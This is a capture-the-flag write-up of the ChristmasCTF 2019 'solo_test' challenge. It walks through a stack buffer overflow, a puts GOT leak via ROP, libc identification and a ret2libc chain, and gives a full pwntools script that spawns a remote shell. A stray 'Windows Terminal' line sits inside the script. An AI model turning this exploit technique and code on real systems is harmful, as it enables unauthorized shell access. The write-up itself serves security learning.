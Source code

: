```yaml
---
layout: post
title: ChristmasCTF - Binary Explotation
excerpt: "The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience."
categories: [Writeups, ChristmasCTF'19]
tags: [pwn]
---
```


The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience.

### Pwn

#### Solo_test
```
Let's see if you are really solo :D  
Never lie!  
nc 115.68.235.72 1337  
  
Download
```

Running the file, we see this is a 64 bit executable which is not stripped.
```
solo_test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64  
.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a9dd8736aa73681b63582f4636fd2ee3c7581152, not stripped
```
Running checksec, we see that NX is enabled which means we cannot execute shellcode on the stack.
```
Arch: amd64-64-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX enabled  
PIE: No PIE (0x400000)
```

My first step is to open the program in Ghidra and look at the main function.
```c
  banner();
  pain1();
  pain2();
  pain3();
  pain4();
  pain5();
  solo();
```
Looking at the functions in the main function carefully, it seems like the functions which start with pain just need to be fulfilled by responding correctly to the question. Each of the pain functions wanted a specific answer by checking through a ` strncmp(local_88,some string,2);` 

I started my exploit script by answering all of these questions.
```python
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	  
getRead()
```

After we successfully answer the questions, we reach the `solo()` function. 
```c
  undefined local_58 [80];
  
  puts("\nYou passed my solo test!");
  printf("Reward --> ");
  read(0,local_58,0x200);
  return;
```
It is clear in this function that we have a buffer overflow. More bytes are read into the local_58 buffer than is allocated for it. Just like normal, I used pwntools cyclic function to generate a string of length 512 and sent it to the binary. By attaching GDB, I could view the register values when it crashed. I grabbed the value in RSP which is used to calculate the offset in 64 bit binary exploitation and found the offset to be 88. As I've gone over how do this in a previous blogpost, I won't explain in detail how this is done.

Now we have a buffer overflow, how can we get a shell? We can achieve this through  a ROP Chain and using the system function found in libc and the string "/bin/sh" found in libc. The one problem we face is that we don't know what version of libc we are using. The challenge authors did not provide it. To overcome this, we can get a leak on a function in the GOT and search for our libc using a libc database. I chose the leak the puts function.

How do we leak the address of a function? We can call puts from the PLT and ask it to output the address of another function. This can be done using  a simple ropchain. To make things simpler, I loaded the ELF for processing by pwntools by doing `e = ELF("/solo_test")` Now, all I need to do to get the address of puts in the GOT which could be done using `e.got["puts"]`. 

If you are new to ROP Chaining, I recommend reading this article [here](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). My first payload uses a `pop rdi; ret;`  gadget to setup the arguments for the puts command. Unlike 32 bit in which arguments are put onto the stack, in 64 bit, arguments must be put in the correct register. After outputting the address of where puts was in the GOT, I returned to the `solo()` function in order to avoid segfaulting and so I could continue my exploit after I got a leak of libc. This is my complete first payload:
```python
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)

r.sendline(payload)
```

By sending this to the remote server, I was able to get a leaked address. I then adjusted it and formatted it using the following.
```python
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))
```

With a leaked address in hand, I used an [online libc database](https://libc.blukat.me/) to identify which version of libc the remote server was using. It found that libc 2.29 was being used. I then downloaded it and loaded it for use in pwntools by writing `libc = ELF("libc6_2.29-0ubuntu2_amd64.so")` 

After identifying the libc version, this was a standard ret2libc attack. First I calculated the libc base address.
```python
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))
```

The final step was to craft a ropchain using the found system and binsh in libc. This was done very easily by using pwntools.
```python
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system

r.sendline(payload)
```

One important note is that without the ret_gadget, my exploit would segfault. I believe this was due to a problem with the stack alignment. As I was working using the remote server and not a local copy of the binary, I wasn't able to truly identify the cause of the segfault. However, if you are working in 64 bit and seemingly randomly segfault, try adding a ret_gadget to fix 16 bit stack alignment.

Here is a complete copy of my exploit. Once executed, this gave a shell on the system. The last step was to find the flag in /home/solo_test/flag. 
```python
Windows Terminal

from pwn import *  
  
context.binary = "solo_test"  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./solo_test")  
r = remote("115.68.235.72", 1337)  
e = ELF("./solo_test")  
libc = ELF("libc6_2.29-0ubuntu2_amd64.so")  
  
#gdb.attach(r)  
  
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
  
getRead()  
  
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)  
  
r.sendline(payload)  
r.recv()  
  
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))  
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))  
  
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system  
  
r.sendline(payload)  
  
r.interactive()
```

## Concluding thoughts on binary exploitation

This was my first time doing a ret2libc attack in competition. It was also my first time working to find out what version of libc a binary was using. It was great to be able to sucessfully exploit a program. I also learned the importance of stack alignment and the power of just adding a ret gadget. Overall, this CTF was a great learning experience. I hope to improve my binary exploitation skills and move from the stack towards the heap in the near future.
